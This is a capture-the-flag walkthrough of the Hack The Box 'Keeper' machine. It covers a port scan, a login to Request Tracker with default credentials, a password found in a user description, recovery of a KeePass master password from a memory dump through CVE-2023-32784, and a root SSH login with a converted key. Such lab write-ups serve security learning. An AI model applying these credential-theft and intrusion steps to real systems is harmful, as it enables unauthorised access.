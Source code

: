 # HTB Keeper Write Up
![HTB Keeper](imgs/machine_info.png "Keeper")

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

## Investigation
Accessing the http service, it just prints a redirection message to tickets.keeper.htb/rt vhost.
![Http server no vhost](imgs/http_server_no_vhost.png "Http server no vhost")   

### tickets.keeper.htb
Best Practical Request Tracker software. There is no public exploit to recent vulnerabilities
This service comes with default credentials
```
User: root
Pass: password
```

It is possible to login with default credentials.
![Request tracker page](imgs/request_tracker_page.png "Request tracker page")

Issue tracker software normally contains sensitive information. Usually on the issues but they can be useful on finding users list, information about local services, and etc.
On this server there were only two users:
![Request tracker user list](imgs/request_tracker_user_list.png "Request tracker user list")
lnorgaard user have the password on the description
![lnorgaard password](imgs/lnorgaard_password.png "lnorgaard password")

Checking if it's possible to login on ssh with this user and it's possible.

### lnorgaard
RT30000.zip file on home, containing two files
```
$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Looking into the files
```
$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```
```
$ file passcodes.kdbx 
passcodes.kdbx: Keepass password database 2.x KDBX
```

There is a [KeePass vulnerability][CVE-2023-32784] that it is possible to retrieve passwords from a memory dump.
Using a public exploit from [vdhoney][keepass-password-dumper] it's possible to find a list with possible passwords
```
$ dotnet run ~/keeper/KeePassDumpFull.dmp
... SNIP ...
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
This means that the first character is unknown `●` and the following are possible 16 second characters appended on beggining of `dgrød med fløde`.
Using google translate to identify the language, to later perform a smart bruteforce on the character set. The language was identified as danish.
When doing this, it was corrected to `rødgrød med fløde`. This is the correct password for passcodes.kdbx
![KeePass Login](imgs/keepass_login.png "KeePass Login")

There was a root user with both password and PuTTY ssh key pair
![Root SSH](imgs/root_ssh.png "Root SSH")

[A PuTTY ssh key can be converted to openssh format][ssh-key-types-convert-ppk].
Following the guid to get the private key and loggin in as root
```
$ ssh -i root.id_rsa root@10.10.11.227
$ id
uid=0(root) gid=0(root) groups=0(root)
```

[CVE-2023-32784]: <https://nvd.nist.gov/vuln/detail/CVE-2023-32784> "CVE-2023-32784"
[keepass-password-dumper]: <https://github.com/vdohney/keepass-password-dumper> "keepass-password-dumper"
[ssh-key-types-convert-ppk]: <https://www.baeldung.com/linux/ssh-key-types-convert-ppk> "ssh-key-types-convert-ppk"
